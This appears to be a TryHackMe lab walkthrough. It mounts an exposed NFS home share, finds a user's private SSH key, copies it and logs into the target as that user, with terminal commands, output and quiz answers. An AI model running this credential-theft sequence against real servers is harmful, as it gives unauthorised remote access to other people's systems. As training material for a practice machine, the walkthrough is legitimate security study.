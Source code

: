 Then, use the mount command we broke down earlier to mount the NFS share to your local machine. Change directory to where you mounted the share- what is the name of the folder inside?

```
kali@kali:~/CTFs/tryhackme/Network Services 2$ sudo mkdir /tmp/mount
kali@kali:~/CTFs/tryhackme/Network Services 2$ sudo mount -t nfs 10.10.145.224:/home /tmp/mount/ -nolock
kali@kali:~/CTFs/tryhackme/Network Services 2$ ls -lA /tmp/mount/
total 4
drwxr-xr-x 5 kali kali 4096 Jun  4 16:37 cappucino
kali@kali:~/CTFs/tryhackme/Network Services 2$
```

`cappucino`

Have a look inside this directory, look at the files. Looks like we're inside a user's home directory...

```
kali@kali:~/CTFs/tryhackme/Network Services 2$ ls -lA /tmp/mount/cappucino
total 28
-rw------- 1 kali kali    5 Jun  4 16:38 .bash_history
-rw-r--r-- 1 kali kali  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 kali kali 3771 Apr  4  2018 .bashrc
drwx------ 2 kali kali 4096 Apr 22  2020 .cache
drwx------ 3 kali kali 4096 Apr 22  2020 .gnupg
-rw-r--r-- 1 kali kali  807 Apr  4  2018 .profile
drwx------ 2 kali kali 4096 Apr 22  2020 .ssh
-rw-r--r-- 1 kali kali    0 Apr 22  2020 .sudo_as_admin_successful
```

`No answer needed`

Interesting! Let's do a bit of research now, have a look through the folders. Which of these folders could contain keys that would give us remote access to the server?

```
kali@kali:~/CTFs/tryhackme/Network Services 2$ ls -lA /tmp/mount/cappucino/.ssh/
total 12
-rw------- 1 kali kali  399 Apr 22  2020 authorized_keys
-rw------- 1 kali kali 1679 Apr 22  2020 id_rsa
-rw-r--r-- 1 kali kali  399 Apr 22  2020 id_rsa.pub
```

`.ssh`

Which of these keys is most useful to us?

`id_rsa`

Copy this file to a different location your local machine, and change the permissions to "600" using "chmod 600 [file]".
Assuming we were right about what type of directory this is, we can pretty easily work out the name of the user this key corresponds to.
Can we log into the machine using ssh -i <key-file> <username>@<ip> ? (Y/N)

```
kali@kali:~/CTFs/tryhackme/Network Services 2$ cp /tmp/mount/cappucino/.ssh/id_rsa .
kali@kali:~/CTFs/tryhackme/Network Services 2$ chmod 600 id_rsa
kali@kali:~/CTFs/tryhackme/Network Services 2$ ssh -i id_rsa cappucino@10.10.145.224
The authenticity of host '10.10.145.224 (10.10.145.224)' can't be established.
ECDSA key fingerprint is SHA256:YZbI4MCk+BQgHK2gc4cdmXuPTzO6m8CtiVRkPalFhlU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.145.224' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

```